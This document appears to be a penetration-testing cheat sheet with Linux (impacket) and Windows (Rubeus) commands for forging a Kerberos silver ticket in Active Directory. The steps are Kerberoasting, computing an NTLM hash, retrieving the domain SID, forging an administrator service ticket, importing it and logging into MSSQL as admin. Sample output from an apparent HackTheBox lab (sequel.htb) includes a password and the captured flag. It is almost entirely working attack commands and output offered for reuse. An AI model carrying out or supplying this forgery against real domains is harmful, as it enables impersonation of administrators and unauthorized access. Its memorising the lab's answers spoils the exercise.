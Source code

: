 ```yaml
---
title: "Silver Ticket"
date: 2024-7-30
tags: ["Pass-The-Ticket", "SID", "Rubeus", "Ticket Granting Ticket", "Silver Ticket", "Sidhistory", "Domain Controller", "Active Directory", "Windows", "GetUserSPNs"]
---
```


### Silver Ticket Attack

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get service principle name (SPN) \[optional\]

```console
sudo ntpdate -s <DC_IP> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -request -k
```

```console
# If NTLM auth is disabled
sudo ntpdate -s <DC_IP> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-host <DC> -request -k
```

#### 2. Generate NTLM

```console
iconv -f ASCII -t UTF-16LE <(printf '<PASSWORD>') | openssl dgst -md4
```

```console {class="sample-code"}
$ iconv -f ASCII -t UTF-16LE <(printf 'REGGIE1234ronnie') | openssl dgst -md4 
MD4(stdin)= 1443ec19da4dac4ffc953bca1b57b4cf
```

#### 3. Get domain SID

```console
sudo ntpdate -s <DC_IP> && impacket-getPac -targetUser administrator '<DOMAIN>/<USER>:<PASSWORD>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.sequel.htb && impacket-getPac -targetUser administrator 'sequel.htb/sql_svc:REGGIE1234ronnie'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

KERB_VALIDATION_INFO 
LogonTime:                      
    dwLowDateTime:                   4131845666 
    dwHighDateTime:                  31133135 

---[SNIP]---
 
Domain SID: S-1-5-21-4078382237-1492182817-2568127209

 0000   10 00 00 00 43 04 A9 EA  FD 5C DC 66 5C CE D0 B2   ....C....\.f\...
```

#### 4. Generate Silver Ticket

```console
impacket-ticketer -nthash <HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <DC> -spn anything/<DC> administrator
```

```console {class="sample-code"}
$ impacket-ticketer -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn anything/dc.sequel.htb administrator
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sequel.htb/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in administrator.ccache
```

#### 5. Import ticket

```console
export KRB5CCNAME=administrator.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=administrator.ccache
```

#### 6. Check

```console
klist
```

```console {class="sample-code"}
$ klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@SEQUEL.HTB

Valid starting     Expires            Service principal
09/25/24 07:55:27  09/23/34 07:55:27  anything/dc.sequel.htb@SEQUEL.HTB
        renew until 09/23/34 07:55:27
```

#### 7. Access service

```console
# For example: mssql
impacket-mssqlclient -k <DC>
```

```console {class="sample-code"}
$ impacket-mssqlclient -k dc.sequel.htb                                                
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sequel\Administrator  dbo@master)> SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) AS Contents
BulkColumn                                
---------------------------------------   
b'2186a912c7f240246fd2c2b04651f9b4\r\n'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Get service principle name (SPN) \[optional\]

```console
.\rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC> /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>' /nowrap
```

#### 2. Generate NTLM

```console
.\rubeus.exe hash /password:'<PASSWORD>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> .\rubeus.exe hash /password:'REGGIE1234ronnie'

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : REGGIE1234ronnie
[*]       rc4_hmac             : 1443EC19DA4DAC4FFC953BCA1B57B4CF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

#### 3. Get domain SID

#### 3a. Locally

```console
import-module activedirectory
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> import-module activedirectory
```

```console
Get-ADDomain | fl DomainSID
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> Get-ADDomain | fl DomainSID

DomainSID : S-1-5-21-4078382237-1492182817-2568127209
```

#### 3b. Remotely

```console
# Install ldp.exe (Windows 11)
Settings > System > Optional Features > More Windows Features and add 'Active Directory Lightweight Directory Services'
```

```console
# Bind > Bind with credentials
ldp.exe
```

```console
# Browse > Search
BaseDN: DC=<EXAMPLE>,DC=<COM>
Filter: (objectclass=User)
```

#### 4. Generate silver ticket

```console
.\rubeus.exe silver /domain:<DOMAIN> /dc:<DC> /sid:<SID> /rc4:<HASH> /user:administrator /service:anything/<DC> /nowrap /ptt
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> .\rubeus.exe silver /domain:sequel.htb /dc:dc.sequel.htb /sid:S-1-5-21-4078382237-1492182817-2568127209 /rc4:1443EC19DA4DAC4FFC953BCA1B57B4CF /user:administrator /service:anything/dc.sequel.htb /nowrap /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : SEQUEL.HTB (SEQUEL)
[*] SID            : S-1-5-21-4078382237-1492182817-2568127209
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : 1443EC19DA4DAC4FFC953BCA1B57B4CF
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 1443EC19DA4DAC4FFC953BCA1B57B4CF
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : anything
[*] Target         : dc.sequel.htb

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'administrator' to 'anything/dc.sequel.htb'

[*] AuthTime       : 9/24/2024 5:06:04 PM
[*] StartTime      : 9/24/2024 5:06:04 PM
[*] EndTime        : 9/25/2024 3:06:04 AM
[*] RenewTill      : 10/1/2024 5:06:04 PM

[*] base64(ticket.kirbi):

      doIFUTCCBU ---[SNIP]--- F1ZWwuaHRi


[+] Ticket successfully imported!
```

#### 5. Check

```console
klist
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> klist

Current LogonId is 0:0x1293866

Cached Tickets: (1)

#0>     Client: administrator @ SEQUEL.HTB
        Server: anything/dc.sequel.htb @ SEQUEL.HTB
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/24/2024 17:06:04 (local)
        End Time:   9/25/2024 3:06:04 (local)
        Renew Time: 10/1/2024 17:06:04 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

{{< /tabcontent >}}
